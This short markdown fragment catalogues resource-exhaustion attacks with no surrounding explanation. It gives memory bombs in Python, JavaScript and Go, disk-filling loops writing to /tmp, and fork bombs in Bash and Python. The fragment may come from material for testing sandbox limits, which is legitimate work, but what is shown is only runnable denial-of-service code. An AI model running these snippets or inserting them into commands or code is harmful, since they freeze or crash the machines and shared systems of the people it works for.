 ### Memory Exhaustion
```python
# Memory bomb
a = []
while True:
    a.append("x" * 1000000)
```

```javascript
// Memory bomb
let a = [];
while (true) {
    a.push("x".repeat(1000000));
}
```

```go
// Memory bomb
package main
import "time"
func main() {
    a := make([][]byte, 0)
    for {
        a = append(a, make([]byte, 1000000))
    }
    time.Sleep(time.Second)
}
```

### Disk Exhaustion
```python
# Disk bomb
with open("/tmp/output.txt", "w") as f:
    while True:
        f.write("x" * 1000000)
        f.flush()
```

```javascript
// Disk bomb
const fs = require('fs');
const stream = fs.createWriteStream('/tmp/output.txt');
while (true) {
    stream.write("x".repeat(1000000));
}
```

### Fork Bomb
```bash
# Classic fork bomb
:(){ :|:& };:
```

```python
# Python fork bomb
import os
while True:
    os.fork()
```
